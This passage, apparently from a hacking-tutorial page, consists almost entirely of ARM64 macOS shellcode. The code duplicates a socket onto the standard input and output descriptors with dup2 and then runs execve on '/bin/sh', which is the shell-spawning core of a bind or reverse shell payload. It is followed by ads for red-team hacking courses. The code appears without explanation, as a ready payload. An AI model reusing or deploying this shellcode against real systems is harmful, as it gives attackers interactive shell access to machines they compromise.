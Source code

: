 ```armasm

call_dup:
    // dup(s, 2) -> dup(s, 1) -> dup(s, 0)
    mvn  x0, x3
    lsr  x2, x2, #1
    mov  x1, x2
    mov  x16, #90
    svc  #0x1337
    mov  x10, xzr
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
    str  x1, [sp, #-8]
    mov	 x1, #8
    sub  x0, sp, x1
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #59
    svc  #0x1337
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

